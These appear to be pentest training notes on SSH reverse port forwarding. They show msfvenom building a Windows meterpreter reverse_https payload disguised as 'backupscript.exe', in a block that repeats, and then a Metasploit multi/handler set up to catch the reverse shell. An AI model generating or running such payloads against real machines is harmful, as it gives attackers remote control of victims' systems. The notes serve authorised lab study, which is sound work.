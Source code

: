 ## Reverse Port Forwarding
------------------------
![[Pasted image 20241105201605.png]]
#### Creating a Windows Payload with msfvenom

  Remote/Reverse Port Forwarding with SSH

```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```
#### Creating a Windows Payload with msfvenom

  Remote/Reverse Port Forwarding with SSH

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

#### Configuring & Starting the multi/handler

  Remote/Reverse Port Forwarding with SSH

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
